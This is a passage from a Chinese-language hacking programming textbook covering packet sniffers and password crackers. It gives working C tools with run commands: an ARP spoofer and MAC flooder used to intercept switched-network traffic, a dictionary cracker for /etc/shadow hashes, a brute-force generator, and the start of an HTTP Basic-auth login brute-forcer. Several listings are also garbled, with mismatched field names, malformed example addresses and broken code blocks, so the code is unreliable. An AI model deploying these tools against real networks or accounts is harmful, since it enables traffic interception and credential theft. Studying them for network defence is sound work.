    struct pcap_addr *addresses; /* IP 地址、网络掩码、广播地址、等 */
    bpf_uint32 flags;          /* 回环接口等于 IP_IF_LOOPBACK */
};
```

`addresses` 项是指向 `pcap_addr` 结构体的指针，它包含了接口的附加信息：

```c
struct pcap_addr {
    struct pcap_addr *next;    /* 指向下一个项的指针 */
    struct sockaddr *addr;      /* IP 地址 */
    struct sockaddr *netmask;   /* 此 IP 地址的网络掩码 */
    struct sockaddr *broadaddr; /* 广播地址 */
    struct sockaddr *dstaddr;   /* 点对点连接的目的地址或 NULL */
};
```

`pcap_findalldevs()` 函数的原型形式如下：

```c
pcap_findalldevs(pcap_if_t **alldevs, char *errbuf);
```

注意，旧版本的 libpcap 库没有 `pcap_findalldevs()` 函数。

### 9.1.2.2 打开网络接口并创建拦截会话

`pcap_open_live()` 函数打开一个网络接口并创建一个拦截会话。
它的原型形式如下：

```c
pcap_t *pcap_open_live(const char *device, int snaplen, int promisc, int to_ms, char *errbuf);
```

其元素如下：

- `device`: 在第一步中定义的接口名称
- `snaplen`: 整数，指定库将捕获的最大网络数据包字节数
- `promisc`: 将接口设置为混杂模式的标志位（1为设置，0为未设置）
- `to_ms`: 以毫秒为单位的超时时间（0 为读取到第一个错误为止，-1 为无限读取）
- `errbuf`: 用于处理错误信息的缓冲区

该函数返回一个会话描述符。
以下是一个代码片段：

```c
#include <pcap.h>
pcap_t *handle;
char errbuf[PCAP_BUFSIZ];
handle = pcap_open_live(dev, BUFSIZ, 1, 0, errbuf);
if (handle == NULL) {
    fprintf(stderr, "%s\n", errbuf);
    exit(-1);
}
if (strlen(errbuf) > 0) {
    fprintf(stderr, "Warning: %s\n", errbuf);
    errbuf[0] = 0;
}
```

在这里，要拦截的接口由 `dev` 变量指定，或者 `BUFSIZ` 值在 `pcap.h` 文件中定义。网络接口切换到混杂模式，并指令读取数据直到发生错误。

一旦打开拦截会话并接收到描述符，就可以在开始拦截之前确定许多属性。例如，可以使用 `pcap_datalink()` 函数确定打开的接口类型：

```c
if (pcap_datalink(handle) != DLT_EN10MB) {
    fprintf(stderr, "This program only works with Ethernet cards\n");
    exit(-1);
}
```

如果选定的网络接口不是以太网、100 MB、1000 MB 或更高，此代码将产生错误。使用此选项不是强制的，但很有用。

### 9.1.2.3 创建过滤器

使用以下两个函数向程序添加过滤器：`pcap_compile()` 和 `pcap_setfilter()`。

过滤器表达式存储在字符串（字符数组）中。此类语法与 `tcpdump` 使用的相同。在使用过滤器之前，必须使用 `pcap_compile()` 函数进行“编译”。其原型如下：

```c
int pcap_compile(pcap_t *p, struct bpf_program *fp, char *str, int optimize, bpf_u32 net);
```

在这里，第一个参数是会话描述符。第二个参数是存储编译后过滤器的内存区域指针。后面是表达式字符串。下一个参数指定是否进行优化：0 为否，1 为是。最后一个参数是掩码。函数在出错时返回 -1；任何其他值均表示执行成功。

表达式被编译后，必须应用它，这是通过 `pcap_setfilter()` 函数完成的。其原型如下：

```c
int pcap_setfilter(pcap_t *p, struct bpf_program *fp);
```

在这里，第一个参数是会话描述符，第二个参数是“编译”后的表达式指针（作为 `pcap_compile()` 函数的第二个参数）。

以下是代码片段：

```c
#include <pcap.h>
pcap_t *handle;                    /* 会话描述符 */
char dev[] = "eth0";               /* 要监听的网络接口 */
char errbuf[PCAP_ERRBUF_SIZE];     /* 错误信息缓冲区 */
struct bpf_program filter;         /* 过滤器表达式 */
char filter_exp[] = "udp dst port 53"; /* 过滤器表达式 */
bpf_u32 mask;                       /* 接口掩码 */
bpf_u32 net;                        /* 接口 IP 掩码 */
pcap_lookupnet(dev, &net, &mask, errbuf); /* 获取接口 IP 地址和掩码 */
if (handle == NULL) {
    fprintf(stderr, "%s", errbuf);
    exit(-1);
}
handle = pcap_open_live(dev, BUFSIZ, 1, 0, errbuf);
if (handle == NULL) {
    fprintf(stderr, "%s", errbuf);
    exit(-1);
}
if (strlen(errbuf) > 0) {
    fprintf(stderr, "Warning: %s", errbuf);
}
```


```c
errbuf[0] = 0;
}
```

```c
if (pcap_compile(handle, &filter, filter_exp, 0, mask) == -1) {
    fprintf(stderr, "%s", pcap_geterr(handle));
    exit(-1);
}
```

```c
if (pcap_setfilter(handle, &filter) == -1) {
    fprintf(stderr, "%s", pcap_geterr(handle));
    exit(-1);
}
```

该程序准备了一个到达端口 53 的 UDP 数据包拦截器。示例中有两个函数尚未考虑：`pcap_lookupnet()` 和 `pcap_geterr()`。

第一个函数解码网络掩码，该掩码放在 `pcap_compile()` 函数的最后一个参数中。函数原型如下：

```c
int pcap_lookupnet(const char *device, bpf_uint32 *netp, bpf_uint32 *mask, char *errbuf)
```

因为只需要网络掩码，IP 地址只是为了提供完整视图。`pcap_geterr()` 函数返回错误描述；它接受会话描述符作为参数。其原型为：

```c
char *pcap_geterr(pcap_t *p)
```

### 9.1.2.4. 捕获和处理数据包

可以使用四个函数之一捕获数据包：`pcap_next()`、`pcap_next_ex()`、`pcap_dispatch()` 或 `pcap_loop()`。前两个函数每次调用捕获一个数据包。它们的原型如下：

```c
const char *pcap_next(pcap_t *p, const struct pcap_thdr *pkt_header, const char **pkt_data)
```

这两个函数的第一个参数都是会话描述符。第二个参数是指向描述接收数据包的结构的指针（该结构的描述在本节后部分给出）。第三个参数是指向存储接收数据包的内存区域的指针。第一个函数返回存储接收数据包的内存区域指针。第二个函数返回以下值之一：1 表示数据包已读取，2 表示超时，-1 表示发生错误，或 -2 表示没有可用数据包。

# 第 9 章：嗅探器 139

在循环中结合这两个函数可以实现拦截必要数据包的机制。然而，最佳解决方案是使用 `pcap_loop()` 或 `pcap_dispatch()` 函数。这两个函数的原型几乎相同：

```c
int pcap_loop(pcap_t *p, int cnt, pcap_handler callback, u_char *user)
int pcap_dispatch(pcap_t *p, int cnt, pcap_handler callback, u_char *user)
```

这两个函数唯一的区别在于它们如何处理超时：`pcap_loop()` 忽略超时而 `pcap_dispatch()` 不会。在后面的示例中，只使用了 `pcap_loop()` 函数，因为对超时感兴趣。

回调函数不是任意函数。它的原型如下：

```c
void process_packet(u_char *user, const struct pcap_thdr *header, const u_char *packet)
```

在这里，第一个参数是从 `pcap_loop()` 函数的参数传递给回调的数据。第二个参数是指向 `pcap_thdr` 结构的指针，该结构定义在 `pcap.h` 中。最后一个参数指向存储使用 `pcap_loop()` 函数拦截的完整数据包的缓冲区。回调函数没有返回返回值（void）。

回调函数的作用是处理接收的数据包。这与没有使用 libcap 库的示例完全相同。即定义需要的数据包头结构，并将接收的数据包解析到这些结构中，并将字段值输出到屏幕。

使用 libpcap 库的被动嗅探器源代码名为 `skslniff_pcap.c`，可以在附带光盘的 `/PART II/Chapter 2` 目录下找到。

使用 libpcap 库的程序通过 `-lpcap` 进行编译：

```bash
# gcc skslniff_pcap.c -o skslniff_pcap -lpcap
```

以下是运行嗅探器的命令序列示例：

```bash
# ./skslniff pcap tcp and dst host 192.168.10.1
```

在这种情况下，嗅探器将只会发送到宿主机 192.168.10.1 的 TCP 数据包。

## 9.2. 主动嗅探器

为了更好地地理解主动嗅探的本质，你必须了解局域网中使用的设备及其工作原理。这些设备包括：

- 中继器（Repeaters）和集线器（Hubs）将到达一个端口的数据传输到所有其他端口，而不考虑数据的性质及其目的地。
- 桥接器（Bridges）和交换机（Switches）在处理数据方面具有选择性。它们检查帧头，只有当目的地址（MAC 地址）属于另一个网段时，才会将其从一个网段发送到另一个。
- 路由器（Routers）工作在 OSI 模型的第三层；因此，它们根据 IP 头部信息将数据从一个子网发送到另一个子网。

因此，在一个仅使用中继器和集线器的网络（此类网络被称为非交换网络），从计算机发送的数据包将通过网络中的所有其他计算机，但只有数据包所指向的那台计算机会接收它。在非交换网络中，在任何一个主机上以混杂模式（promiscuous mode）运行的被动嗅探器都可以拦截网络中任何其他计算机之间交换的数据包。

交换网络网络使用交换机和路由器。在此类网络中，被动嗅探器只能拦截其安装计算机所属的网段内的数据包。要拦截来自交换网络其他网段的数据包，则需要使用主动嗅探器。

### 9.2.1. 主动嗅探技术

有许多主动嗅探技术。以下是其中一些流行技术的描述。

### 9.2.1.1. MAC 泛洪（交换机阻塞）

这种方法适用于大多数廉价或过时的交换机。交换机在内存中存储 MAC 地址到端口的映射表。用伪造的 MAC 地址填充该内存会瘫痪交换机按地址发送帧的能力，使其开始像普通集线器或中继器一样将帧发送到所有端口。

### 9.2.1.2. MAC 复制

在 MAC 复制攻击中，攻击者伪装成受害者的 MAC 地址。现在，当网络中存储来自带有伪造 MAC 地址机器的任何帧时，交换机和桥接器会将新路由添加到它们的地址表中，所有指向受害的数据现在都被路由到冒充者那里。冒充者还可以向网络发送一些数据，这将导致路由器或桥接器将其中的路由映射更改为正确的。因此，冒充者必须不断发送带有伪造 MAC 地址的帧，以维持交换设备地址表中的虚假路由。由于旨在受害的数据被路由到了冒充者那里，受害者自然无法接收到。这种情况不会持续太久；黑客必须立即将拦截的数据包重新发送给受害者。此外，黑客只能拦截发往受害者的数据，而不能拦截来自对方的数据；也就是说，这种拦截是单向的。

### 9.2.1.3. ARP 重定向（ARP 欺骗）

这种攻击属于中间人攻击。其工作原理如下：假设黑客要拦截交换网络中节点 A 和节点 B 之间的流量。在向 IP 地址发送数据时，任何以太网节点都必须知道相应的 MAC 地址。因此，在发送数据之前，机器首先构建其 ARP 缓存，其中存储了 IP 到 MAC 的映射表。如果缓存中没有所需的映射，节点将发送广播 ARP 请求。

黑客可以向主机 A 发送虚假的 ARP 消息，声称其机器的 MAC 地址对应主机 B 的 IP 地址。主机 A 将此映射（受害者的 IP 地址到冒充者的 MAC 地址）存储在其 ARP 缓存中，此后向受害者的 IP 发送到冒充者的机器。这只覆盖了一个方向：从主机 A 到主机 B。要拦截从主机 B 到主机 A 的流量，黑客必须对主机 B 的 ARP 缓存执行相同的步骤，但这次是使用主机 A IP 地址到其机器 MAC 地址的虚假映射。完成后，主机 A 和主机 B 之间的所有流量将通过黑客的机器。

黑客还必须向主机 A 和主机 B 定期发送 ARP 消息以维护虚假的缓存映射；否则，主机很快就会建立正确的表。黑客还必须将拦截的数据包重新发送到真实目的地；否则，丢失的流量很快会被发现。这项可以使用 IP 转发（IP forwarding）来处理。

### 9.2.2. 主动嗅探模块

主动嗅探器由三个主要模块组成：

- 使用上述讨论的方法之一，将流量引导到网络本地网段（即安装嗅探器的网段）的模块
- 用于分析拦截的流量的被动嗅探器
- 用于将拦截的流量转发到其真实目的地的模块

## 第二部分：网络工具

可以使用名为 Ettercap (http://ettercap.sourceforge.org) 的知名工具来构建主动嗅探器。当黑客完成后，通过向 `/proc/net/ipv4/ip_forward` 写入 0 来禁用转发。以下示例显示了如何启用：

```c
fd = fopen("/proc/net/ipv4/ip_forward", "w");
if (fd == NULL)
    perror("failed to open /proc/net/ipv4/ip_forward");
fprintf(fd, "1");
close(fd);
```

剩下的任务是考虑如何将流量引导到本地网段。如果你愿意，你可以自己独立完成这三个模块。我在书中没有考虑这一方面。

### 9.2.3. 不使用 libnet 的 ARP 嗅探

本节描述了一种使用前节提到的所有方法的嗅探器。程序 `skniff_arp.c` 的源代码位于列表 9.4。它也可以在配套的光盘的 `/PART II/Chapter 9` 目录下找到。

在程序中定义了一个名为 `arp_packet` 的结构，它包含了以太网和 ARP 头部。这使得发送数据包更加方便。数据包使用数据字字发送。必须使用 `sockaddr_ll` 结构。发送数据包的方法仅是填充该结构的以下字段：`ill_family`、`ill_addr`、`ill_halen` 和 `ill_ifindex`。在示例的情况下，只需填充两个字段（`ill_family` 和 `ill_ifindex`）一切就能运行良好。然而，你也可以填充所有字段以确保数据包在所有情况下都能工作。

遗憾的是，没有标准的函数可以将 MAC 地址转换为网络格式；但是，使用了一个自定义函数 `get_mac()` 来移除数据包中的冒号（或连字符）。

对于 `skniff_arp` 程序，发送数据包的周期可以根据需要设置。为了在无限循环中发送数据包，使用 `sleep(period)` 函数设置。默认周期为 10 秒（`period = 10`）。

嗅探器运行的其余方面从源代码中应该是清晰而易懂的。

# 列表 9.4. ARP 欺骗器 (sniffiff_arp.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <features.h>               /* 用于 glibc 版本号 */
#if GLIBC_MIN==2 && GLIBC_MINOR >= 1
#include <netpacket/packet.h>
#include <net/ethernet.h>             /* L2 协议 */
#else
#include <asm/types.h>
#include <linux/if_packet.h>
#include <linux/if_ether.h>          /* L2 协议 */
#endif
#include <linux/if.h>
#include <arp/inet.h>
#include <netdb.h>
#include <sys/ioctl.h>

#define DEVICE "eth0"

struct arp_packet {
    unsigned char h_dest[ETH_ALEN];   /* 目标 ETH 地址 */
    unsigned char h_source[ETH_ALEN]; /* 源  ETH 地址 */
    unsigned short h_proto;           /* 数据包类型 ID */
    unsigned short ar_hr;             /* 硬件地址格式 */
    unsigned short ar_pro;            /* 协议地址格式 */
    unsigned char ar_hin;             /* 硬件地址长度 */
    unsigned char ar_pln;             /* 协议地址长度 */
    unsigned short ar_opcode;         /* ARP 操作码（命令） */
    unsigned char ar_sha[ETH_ALEN];   /* 发送地址 */
    unsigned char ar_sip[4];          /* 发送 IP 地址 */
    unsigned char ar_tha[ETH_ALEN];   /* 目标硬件地址 */
    unsigned char ar_tip[4];          /* 目标 IP 地址 */
};

/* 将 MAC 地址转换为网络格式 */
/*------------------------------------------------------*/
void get_mac(unsigned char *mac, char *optarg) {
    int i = 0;
    char *ptr = strtok(optarg, ":-");
    while(ptr) {
        unsigned int nmb;
        sscanf(ptr, "%x", &nmb);
        mac[i] = (unsigned char)nmb;
        ptr = strtok(NULL, ":-");
        i++;
    }
}

/* 将主机名转换为其 IP 地址 */
/*------------------------------------------------******/
void get_ip(struct in_addr* in_addr, char* str) {
    struct hostent *hp;
    if((hp = gethostbyname(str)) == NULL) {
        herror("gethostbyname failed");
        exit(-1);
    }
    bcopy(hp->h_addr, in_addr, hp->h_length);
}

/*------------------------------------------------******/
/* main() 函数 */
/*------------------------------------------------******/
int main(int argc, char *argv[]) {
    struct sockaddr_ll s_ll;
    struct in_addr src_in_addr, targ_in_addr;
    struct arp_packet pkt;
    int sd;
    struct ifreq ifreq;
    char s_ip_addr[16];
    char s_eth_addr[19];
    int period = 2;
    fprintf(stderr, "======================================\n");
    fprintf(stderr, "  ARP spofer by Ivan Sklyaroff, 2006 =\n");
    fprintf(stderr, "======================================\n");
    if(argc < 5) {
        fprintf(stderr,
               "  usage: %s <source ip>|<random> <source mac>|<random> <destination ip\n"
               "<destination mac> [period(default 10 sec)]\n",
               argv[0]);
        exit(-1);
    }
    if (argc == 6) {
        period = atoi(argv[5]);
    }
    if ((sd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ARP))) < 0) {
        perror("socket failed");
        exit(-1);
    }

    /* 填充 sockaddr_ll 结构体字段 */
    memset(&s_ll, 0, sizeof(struct sockaddr_ll));
    s_ll.s_family = AF_PACKET;
    strncpy(ifreq.ifr_ifname, DEVICE, IFNAMSIZ);
    if (ioctl(sd, SIOCGIFINDEX, &ifreq) < 0) {
        perror("ioctl failed");
        exit(1);
    }
    s_ll.s_ifindex = ifreq.ifr_ifindex;

    /* 填充 ARP 数据包字段 */
```


pkt.ar_proto = htons(0x806);
pkt.ar_hr = htons(1);
pkt.ar_pro = htons(0x800);
pkt.ar_hin = 6;
pkt.ar_pln = 4;
pkt.ar_op = htons(1);
get_mac(pkt.h_dest, argv[4]);
memcpy(pkt.ar_tha, argv[4], 6);
get_ip(&targ_in_addr, argv[3]);

/* 在无限循环中发送数据包 */
while (1) {
    sleep(period);
    if (strcmp(argv[1], "random") == 0) {
        sprintf(s_ip_addr, "%u.%u.%u.%u", rand() % 255, rand() % 255, rand() % 255, rand() % 255);
        get_ip(&src_in_addr, s_ip_addr);
    } else {
        get_ip(&src_in_addr, argv[1]);
        if (strcmp(argv[2], "random") == 0) {
            sprintf(s_eth_addr, "%x:%x:%x:%x:%x", rand() % 0xff, rand() % 0xff, rand() % 0xff, rand() % 0xff, rand() % 0xff);
            get_mac(pkt.ar_sha, s_eth_addr);
            memcpy(pkt.h_source, pkt.ar_sha, 6);
        } else {
            get_mac(pkt.ar_sha, argv[2]);
            memcpy(pkt.h_source, pkt.ar_sha, 6);
        }
    }
    memcpy(pkt.ar_sip, &src_in_addr.s_addr, 4);
    memcpy(pkt.ar_tip, &targ_in_addr.s_addr, 4);
    if (sendto(sd, &pkt, sizeof(pkt), 0, (struct sockaddr *)&s_ll, sizeof(struct sockaddr_ll)) < 0) {
        perror("sendto");
    }
}

程序的编译方式如下：
```
gcc sniffiff_arp.c -o sniffiff_arp
```

以下命令每秒向地址 192.168.10.1 (00:50:56:01) 发送随机 IP 和 MAC 地址：
```
./sniffiff_arp random 192.168.10.1 00:50:56
```

通过这种方式可以执行 MAC 泛洪攻击。192.168.10.1 的 ARP 缓存内容类似于 ARP 表：

| 地址 IP | 物理地址 | 类型 |
| :--- | :--- | :--- |
| 0.238.243.90 | d5-ce-d7-a1-e0-5d | dynamic |
| 8.8.159.78 | la-f0-8b-62-9f-66 | dynamic |
| 9.114.177.209 | a4-64-0a-42-e1-a5 | dynamic |
| 9.233.34.145 | a2-52-52-d8-cb | dynamic |
| 16.74.69.183 | aa-d4-83-7b-5e-75 | dynamic |
| 17.101.146.235 | b3-38-b9-5e-5d-cd4 | dynamic |
| 25.200.136.254 | 13-e9-f8-76-8e-74 | dynamic |
| 33.167.134.206 | 01-e6-64-f1-c00 | dynamic |
| 37.80.252.251 | a9-79-2b-be-97-d4 | dynamic |

通过向程序传递值，它也可以用于执行 ARP 欺骗和 MAC 泛洪攻击。

## 9.2.4 使用 libnet 库的 ARP 欺骗器

本节描述了一个与上一节（列表 9.4）具有相同功能的程序，但它使用了 libnet 库。libnet 由 Mike Schiff 开发；其最新版本可以在 `http://www.packetfactory.net/libnet/` 下载。配合 libpcap 库，所有现代 Linux 发行版通常都包含了 libnet 库。程序使用 libnet 构建并发送数据包时必须执行的步骤序列如下：

1. 初始化 libnet 会话。
2. 构建数据包。
3. 发送数据包。
4. 关闭会话。

在详细考虑这些步骤之前，有必要介绍 libnet 库使用的两个重要概念：libnet 上下文和协议标签。

libnet 上下文是 libnet 库创建的一个透明控制结构，用于维护构建完整网络数据包的会话。上下文由 `libnet_t` 类型表示，并用于库的所有主函数。上下文是 libnet 库的内部结构，应用程序程序员无需知道其内部实现。

如你所知，一个完整的网络数据包是从顶层向堆栈向下构建的。在此过程中，每一层都会向数据包添加其头部信息（见第 3.3 节）。libnet 库使用标签来引用数据包中的特定层。所有构建网络数据包头部的 libnet 函数都会返回 `libnet_tag` 类型的协议标签。可以使用其协议标签修改已构建的数据包（例如端口号）。

### 9.2.4.1 初始化 libnet 会话

使用 `libnet_init()` 函数初始化 libnet 会话。其原型如下：

* `LIBNET_LINK` — 定义数据链路接口
* `LIBNET_ADV` — 定义扩展模式数据链路接口
* `LIBNET_RAW4` — 定义 IPv4 套接字
* `LIBNET_RAW4_ADV` — 定义扩展模式 IPv4 套接字
* `LIBNET_RAW6` — 定义 IPv6 套接字
* `LIBNET_RAW6_ADV` — 定义扩展模式 IPv6 套接字

第二个参数是网络接口名称（例如 `eth0`）或接口的 IP 地址。可以指定为 `NULL`，此时 libnet 将自动确定所需的接口。

第三个参数是指向缓冲区的指针，如果函数产生错误描述，将发送到此处。

该函数返回指向 `libnet_t` 上下文的指针。

以下是代码片段：

```c
#include <libnet.h>

libnet_t *lc;
char errbuf[LIBNET_ERRBUF_SIZE];
...
lc = libnet_init(LIBNET_LINK, NULL, errbuf);
if (lc == NULL) {
    fprintf(stderr, "Error opening context: %s", errbuf);
    exit(-1);
}
```

### 9.2.4.2 构建数据包

在创建 libnet 上下文后，你就可以开始构建网络数据包了。数据包头部是从顶层向最低层开始构建的。可以使用以下两类函数来实现此目的：`libnet_build()` 和 `libnet_autobuild()`。第一类函数要求程序员填充所有（或大部分）头部字段。而当使用第二类函数时，只需填充主要字段即可；其余部分将由 libnet 库自动处理。

libnet 提供了第一类函数，而第二类函数适用于所有协议。例如，可以使用 `libnet_build_ethernet()` 或 `libnet_autobuild_ethernet()` 任一类型的函数来构建以太网头部，但对于 TCP 头部，只有一种第一类函数可用（即 `libnet_build_tcp()`）。至少在 libnet 的 1.1 版本中是这样规定的。头部的类型取决于第一步在 `libnet_init()` 函数中指定的注入类型。对于 `LIBNET_LINK` 或 `LINK`，必须创建一个带有高层头部的数据链路层头部。

对于任何 `LIBNET_RAW*` 类型，都不需要创建数据链路层头部；它将由 libnet 库自动创建。可以从顶层开始创建任何层的头部，包括互联网层。

以下是一个构建 UDP 数据包的示例：

```c
#include <libnet.h>

libnet_t *lc;                                      /* 指向上下文的指针 */
libnet_ptag_t ip4, udp;                            /* 协议标签 */
char errbuf[LIBNET_ERRBUF_SIZE];
unsigned short dport = 777;                        /* 目的端口 */
unsigned long dst_addr;                            /* 目的 IP 地址 */
char *payload = "Hello, World!";                   /* 用于服务的数据 */
int payload_s;

dst_addr = inet_addr(argv[1]);                     /* IP 地址通过命令行传递 */
payload_s = strlen(payload);                       /* 数据的长度 */

/* 初始化会话 */
lc = libnet_init(LIBNET_RAW4, NULL, errbuf);
if (lc == NULL) {
    fprintf(stderr, "Error opening context: %s", errbuf);
    exit(-1);
}

/* 构建 UDP 头部 */
udp = libnet_build_udp(
    1000,                                            /* 源端口 */
    dport,                                           /* 目的端口 */
    LIBNET_UDP_H + payload_s,                        /* 头部和数据的总长度 */
    0,                                               /* 校验和由 libnet 填充 */
    (uint8_t *)payload,                              /* 发送数据的指针 */
    payload_s,                                       /* 数据的长度 */
    lc,                                              /* 指向上下文的指针 */
    0                                                /* 构建新头部, 0 */
);

if (udp == -1) {
    fprintf(stderr, "Can't build UDP header (port %d): %s\n", dport, libnet_geterror(lc));
}

/* 构建 IP 头部 */
ip4 = libnet_autobuild_ipv4(
    LIBNET_UDP_H + LIBNET_IPV4_H + payload_s,        /* 数据包长度 */
    IPPROTO_UDP,                                     /* 协议 */
    dst_addr,                                        /* 目的 IP 地址 */
    lc                                               /* 指向上下文的指针 */
);

if (ip4 == -1) {
    fprintf(stderr, "Can't build IP header: %s\n", libnet_geterror(lc));
}
```

你可以在相应的 man 页面或 `/usr/include/libnet` 头文件中找到 `libnet_build_udp()` 和 `libnet_autobuild_ipv4()` 函数的原型。它们也可以在 libnet 存档中附带的特定 HTML 页面中找到。

### 9.2.4.3 发送数据包

当数据包的所有头部（从顶层到最低协议层）组装完成后，数据包就可以发送到网络。这是通过使用 `libnet_write()` 函数实现的，其原型如下：

```c
int libnet_write(libnet_t *l);
```

该函数的唯一参数是指向 libnet 上下文的指针。如果发生错误，函数返回 -1。

要发送多个数据包，可以在循环中使用 `libnet_write()` 函数。以下是使用该函数的示例：

```c
if (libnet_write(lc) == -1) {
    fprintf(stderr, "Unable to send packet: %s\n", libnet_geterror(lc));
    exit(1);
}
```

### 9.2.4.4 关闭会话

一旦构建的数据包（或多个数据包）发送到网络，必须关闭会话并释放与 libnet 上下文相关的所有内部内存结构。这是通过 `libnet_destroy()` 函数实现的：

```c
libnet_destroy(lc);
return 0;
```

该函数的原型如下：

```c
void libnet_destroy(libnet_t *l);
```

它不返回任何值（void）。

使用 libnet 库的活动嗅探程序源代码名为 `sklsniff_lnet.c`，可以在 `/PART/` 找到。

# 第10章：密码破解器

以及小写拉丁字母、数字、点和斜杠字符。对于 MD5 加密，盐值指定为 `$1$salt..$`。

包含加密密码的文件（不一定非命名为 shadow）通过命令行传递给程序。程序本身由两个循环组成。外层循环读取并解析加密密码文件的每一行，提取出加密的密码，然后从密码中提取盐值。

内层循环处理字典文件中的每个单词，该文件是标准的 Linux `/usr/share/dict/words` 字典。每个字典单词都连同外层循环确定的盐值传递给 `crypt()` 函数。`crypt()` 函数产生的结果与外层循环提取的加密密码进行比较。如果它们匹配，则当前的字典单词即为怀疑的密码，并输出到屏幕上。

## 列表 10.1 字典法密码破解器 (bruteshadow.c)

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char* argv[])
{
    FILE *fd1, *fd2;
    char *str1, *str2;
    char *salt, *hash, *key, *key1;
    char buf[13], word[100], pass[100];

    if (argc != 2) {
        fprintf(stderr, "Usage: %s <file shadow>\n", argv[0]);
        exit(-1);
    }

    // 在堆中准备缓冲区
    str1 = (char*)malloc(100);
    str2 = (char*)malloc(100);

    // 打开包含加密密码的文件
    fd1 = fopen(argv[1], "r");
    fprintf(stderr, "wait...\n");

    // 每次循环迭代从文件中读取一行
    while (fgets(str1, 100, fd1) != NULL) {
        // 在行中寻找 $1$ 字符
        str2 = strstr(str1, "$1$");
        // 寻找字符
        if (str2 != NULL) {
            // 提取加密密码
            key = strtok(str2, ":");
            sprintf(pass, sizeof(pass), "%s", key);
            printf("pass=%s\n", pass, strlen(pass));

            // 从加密密码中提取盐值
            strtok(key, "$");
            salt = strtok(NULL, "$");
            hash = strtok(NULL, "$"); // 此操作可以省略

            // 将盐值构建为 $1$salt$
            sprintf(buf, sizeof(buf), "$1$%s$", salt);

            // 打开字典文件
            fd2 = fopen("/usr/share/dict/words", "r");

            // 每次循环迭代读取一个字典单词
            while (fgets(word, 100, fd2) != NULL) {
                // 去除换行符
                word[strlen(word)-1] = '\0';
                // 计算新的加密密码
                key1 = crypt(word, buf);
                // 比较两个加密密码
                if (strcmp(key1, pass) == 0) {
```


```c
printf("OK! The password is: %s\n\n", word);
break;
}
}
```

```c
fclose(fd1);
fclose(fd2);
free(str1);
free(str2);
return 0;
```

### 10.1.2 使用暴力破解法

列表 10.2 所示的程序使用暴力破解法恢复密码。其工作原理类似于旧机械速度表上使用的联动齿轮。当第一个齿轮转完一圈时，它会带动相邻的齿轮并旋转一个位置。第二个齿轮也同样操作，以此类推。就像第一个齿轮一样，第一个字符的编码会不断增加直到达到最大值。当这种情况发生时，将重置该值并将下一个字符的编码加一。这只是一个示例程序，它没有任何花哨的功能，简单地在无限循环中输出密码。

## 列表 10.2 暴力破解破解器 (brutesymbol.c)

```c
#include <stdio.h>

int main() {
    char pswd[10];
    int p = 0;
    pswd[0] = ' ';
    pswd[1] = 0;
    while (1) {
        while ((pswd[p]) > '~') {
            pswd[p] = ' ';
            p++;
            if (!pswd[p]) {
                pswd[p] = ' ';
                pswd[p + 1] = 0;
            }
        }
        p = 0;
        printf("%s\n", &pswd[0]);
    }
    return 0;
}
```

## 10.2 远程密码破解器

远程密码破解器用于猜解远程服务的密码，例如 `telnet`、`FTP`、`SSH` 和 `POP3`，以及通过 `HTTP/HTTPS` 的 Web 服务器资源。任何远程密码破解器的通用操作步骤包含三个步骤：

1. 与远程主机建立连接。
2. 根据给定服务的规则向远程服务发送验证请求。
3. 检查远程服务的回答；如果它显示验证成功，则说明猜中了正确的密码。

Web 服务器采用多种验证方法，如下所示：

- 基础认证 (Basic authentication)
- NT 语言管理器 (NTLM) 认证
- 使用 HTML 表单认证

我首先展示如何为受基础认证保护的 Web 资源构建密码破解器，然后修改此程序以支持安全套接层（SSL）协议。接下来，我考虑另一个密码破解器，这是用于 SSH 服务登录密码的。你可以使用这些程序作为示例，为其他服务设计密码破解器。你只需要获取必要的 RFC 并在你的密码破解器中实现描述的验证方法。

### 10.2.1 基础 HTTP 认证

在基础认证中，当用户尝试连接到受保护的资源时，浏览器会弹出一个窗口，用户必须在其中输入登录和密码（图 10.1）。验证窗口在不同的系统上看起来可能不同。


图 10.1 基础认证窗口

考虑在使用基础认证的情况下，客户端与服务器之间典型的交互过程。例如，假设受基础认证保护的 `/admin/` 资源位于 `192.168.1.1`。访问：

```
GET /admin/ HTTP/1.1
Host: 192.168.1.1
```

这产生了 Web 服务器响应中的以下几行：

```
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="Administrator access!"
```

即 Web 服务器指示需要认证。当 Web 浏览器接收到此信息时，会输出一个输入登录和密码的窗口。用户在相应字段中输入并点击 OK 按钮；浏览器发送如下请求：

```
GET /admin/ HTTP/1.1
Host: 192.168.1.1
Authorization: Basic
```

你可以看到，常规请求包含了 `Authorization` 行。当 Web 服务器接收到它时，会发布信息登录或密码无效并拒绝访问资源；如果登录和密码正确，则允许访问。当采用基础认证时，登录和密码使用 Base64 算法加密，格式为 `登录:密码`。因此，你的密码破解器必须对 `登录:密码` 进行 Base64 编码。遗憾的是，C 语言没有处理此任务的标准函数，因此使用了一个名为 `base64Encode()` 的函数（列表 10.3）。

程序使用了两个文件来形成 `登录:密码` 对：`users.txt` 文件包含登录名，`words.txt` 文件包含可能的密码。这两个文件都可以在随附的光盘的 `PART II/Chapter10` 目录下找到。

## 列表 10.3 基础认证密码破解器 (brutebase64.c)

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>

#define USER "users.txt"
#define PASS "words.txt"
#define CATALOG "/admin/"

static char table64[] = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";

char *port_host;
char *name;

void token(char *arg) {
    name = strtok(arg, "");
    port_host = strtok(NULL, "");
    if (port_host == NULL)
        port_host = "80";
}

void base64Encode(char *intext, char *output) {
    unsigned char ibuf[3];
    unsigned char obuf[4];
    int i;
    int inputparts;

    while (*intext) {
        for (i = inputparts = 0; i < 3; i++) {
            if (*intext) {
                inputparts++;
                ibuf[i] = *intext;
                intext++;
            } else
                ibuf[i] = 0;
        }

        obuf[0] = (ibuf[0] & 0xFC) >> 2;
        obuf[1] = ((ibuf[0] & 0x03) << 4) | ((ibuf[1] & 0xF0) >> 4);
        obuf[2] = ((ibuf[1] & 0x0F) << 2) | ((ibuf[2] & 0xC0) >> 6);
        obuf[3] = ibuf[2] & 0x3F;

        switch (inputparts) {
        case 1: /* 只读取了 1 字节 */
            sprintf(output, "%c%c==",
